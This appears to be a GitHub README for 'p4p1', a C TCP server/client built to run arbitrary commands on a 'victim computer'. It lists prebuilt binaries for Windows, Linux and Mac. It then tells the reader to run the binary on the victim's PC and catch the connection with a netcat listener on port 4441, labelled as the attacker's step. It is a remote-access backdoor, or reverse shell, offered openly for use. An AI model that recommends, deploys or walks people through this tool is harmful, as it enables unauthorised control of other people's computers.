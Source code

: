 # p4p1
C open Source TCP server/client to execute arbitury commands on victim computer. They are all in developpement state. 
For now the only stable versions are:

##Windows
   	-p4p1-o_64.exe
   	-p4p1-o_32.exe
##Linux
   	-p4p1
##Mac
    -p4p1-mac_binairy


#How To use:
For the p4p1-o verison you need to execute them on the victim's PC,
and then open you're port 4441 and listen on it using any tcp server for exemple netcat.

For the p4p1 basic binaries, it is a command line program and you need to put it into server mode on the victim's PC
with the listening port, and connect to it with the client in the same app.

#Exemple:

##Victim:
Execute p4p1-o_xx.exe

##Attacker:
nc -l 4441 <br />
*listening <br />
\<p4p1 /\>

